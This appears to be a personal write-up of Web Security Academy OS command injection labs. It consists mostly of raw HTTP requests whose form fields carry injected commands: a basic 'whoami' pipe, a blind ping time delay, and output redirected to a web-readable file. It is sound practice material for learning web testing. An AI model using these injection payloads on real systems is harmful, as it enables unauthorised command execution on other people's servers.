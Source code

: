 OS command Injection
**Basic stuff**
```
POST /product/stock HTTP/2
Host: 0a010060041aae8c81a0fc90008900b5.web-security-academy.net
Cookie: session=E51KqwNALaiLndmCIvJlDoKnAUBEqsgf
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a010060041aae8c81a0fc90008900b5.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 28
Origin: https://0a010060041aae8c81a0fc90008900b5.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

productId=1|whoami&storeId=1
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/a8461a76-9fc0-454f-8cf4-d87ecb65a554)






**Blind OS command injection with time delays**

Delaying ping command by 10 seconds (-c)
```
POST /feedback/submit HTTP/2
Host: 0a95007d039a30518397ad3c00460019.web-security-academy.net
Cookie: session=sRbujO1IiN9jCWjvIQqkRCx50aWXwPfL
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 125
Origin: https://0a95007d039a30518397ad3c00460019.web-security-academy.net
Referer: https://0a95007d039a30518397ad3c00460019.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

csrf=JhvWV4V9qQmkPffXWTdgyfjjQoB7Lxv0&name=sfaf&email=f%40gmail.com||ping+-c+10+127.0.0.1||whoami&subject=viet&message=asfasf
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/852252a6-00ae-47b1-9f5a-9d39e29963d5)




**Blind OS command injection with output redirection**

Email parameter again 
Save file to a /var/www/images 
```
POST /feedback/submit HTTP/2
Host: 0a470083031d3492cca4b95400ca0063.web-security-academy.net
Cookie: session=Sx8bZRPn1yESAKxu6NXOJK2PPmDCCD1v
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 127
Origin: https://0a470083031d3492cca4b95400ca0063.web-security-academy.net
Referer: https://0a470083031d3492cca4b95400ca0063.web-security-academy.net/feedback
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

csrf=emeLgSTT7CjAWA359myebWeI3sblPlE8&name=sfaf&email=f%40gmail.com||whoami>/var/www/images/whoami.txt||&subject=viet&message=f
```

Calling the file 
```
https://0a470083031d3492cca4b95400ca0063.web-security-academy.net/image?filename=whoami.txt
```
![image](https://github.com/VietTheBarbarian/Manual-Application-Testing/assets/56415307/69b87ced-ba65-41ed-a94c-04b0a411d98c)


